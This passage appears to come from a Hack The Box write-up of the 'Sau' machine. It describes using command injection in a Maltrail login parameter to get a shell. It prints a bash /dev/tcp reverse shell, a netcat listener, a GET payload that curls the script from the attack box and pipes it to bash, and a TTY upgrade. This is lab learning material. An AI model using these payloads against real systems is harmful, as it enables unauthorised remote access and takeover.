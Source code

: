 ![rce-confirmed](Mon-27-2023_01-20.png)

I should be able to use this command injection to get a shell. I set up a netcat listener and send a bash reverse shell in the username. Unfortunately, I do not get a hit back. This could be because of all the special characters acting funky once they hit the server. I try base64 encoding the bash shell, and using the command injection to decode the shell and pipe it to bash. This involves less special characters. This doesn't work either. Okay. I instead write a reverse shell to a file on my attack box and host it in a python webserver. I then use the command injection to curl the reverse shell and pipe it to bash. This does not work either.

I fiddle around with the injection for awhile and eventually figure out through trial and error, that for whatever reason, I can get my shell to work if I pass it as a GET parameter, and surround it with backticks. I'm not entirely sure why this is. Once I get this working, I curl the reverse shell I wrote on my box and pass it to bash, and catch a shell on my netcat listener.
```bash
# Write reverse shell file and host it on attack box
echo 'bash -i >& /dev/tcp/<MY IP>/9001 0>&1' > shell.sh
python3 -m http.server

# Start netcat listener
nc -lvnp 9001

# Use command injection to curl reverse shell and pipe it to bash in GET parameter
curl 'http://10.129.99.175:55555/urhfeob/login?username=;`curl+10.10.15.34/shell.sh|bash`'
```

![shell](Mon-27-2023_01-48.png)

Once I catch the shell, I use the [python pty trick](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#spawn-tty-shell) to upgrade my shell
```bash
┌──(kali㉿Kali)──[1:46:22]──[~/htb/Machines/Sau]
└─$ nc -lvnp 9001
<...SNIP...>
puma@sau:/opt/maltrail$ python3 -c 'import pty;pty.spawn("bash")'
puma@sau:/opt/maltrail$ ^Z
zsh: suspended  nc -lvnp 9001
                                                                                                                              
┌──(kali㉿Kali)──[1:52:20]──[~/htb/Machines/Sau]
└─$ stty -a              
speed 38400 baud; rows 69; columns 126; line = 0;
<...SNIP...>
                                                                                                                              
┌──(kali㉿Kali)──[1:52:22]──[~/htb/Machines/Sau]
└─$ stty raw -echo; fg
[1]  + continued  nc -lvnp 9001

```